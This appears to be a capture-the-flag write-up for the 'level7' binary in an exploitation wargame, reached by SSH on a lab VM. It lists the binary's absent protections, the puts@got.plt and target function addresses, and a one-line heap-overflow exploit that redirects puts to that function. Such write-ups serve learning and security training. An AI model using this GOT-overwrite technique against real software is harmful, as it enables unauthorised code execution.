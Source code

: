 # level7

## Header

```bash
ssh level7@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

<hr>

## Solution


<!-- [scheme](./Resources/scheme07.png) -->


0x8049928 - puts@got.plt

0x80484f4 - addr of m function

res of 2nd malloc written to the res of 1st + 4 (arr1 + 4)

<img src="./Resources/scheme07.png" width=400/>

```bash
./level7 $'XXXXXXXXXXXXXXXXXXXX\x28\x99\x04\x08' $'\xf4\x84\x04\x08'
```

## References
